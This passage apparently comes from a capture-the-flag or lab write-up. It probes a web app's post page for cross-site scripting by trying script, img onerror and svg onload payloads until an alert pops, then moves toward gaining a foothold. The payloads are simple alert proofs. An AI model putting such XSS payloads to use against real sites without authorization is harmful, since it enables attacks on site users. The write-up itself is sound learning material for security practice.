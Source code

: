 For the post page, we can search for vulnerabilities, such as XSS
##### Checking for XSS
lets try different tags on the title and content areas, starting by "/script"
```bash
<script>alert('XSS')</script>
```
no luck..., lets try with "img"
```bash
<img src="x" onerror="alert('XSS')"/>
```
no luck..., lets try with "svg"
```bash
<svg xmlns='' onload='alert("XSS")'/>
```

aaaand we get the popup! that means its vulnerable to XSS :)
![Pasted image 20250509013441](MediaFiles/Pasted%20image%2020250509013441.png)

So now that we have found the vulnerability, the reconnaisanse stage stops, lets move on to the foothold
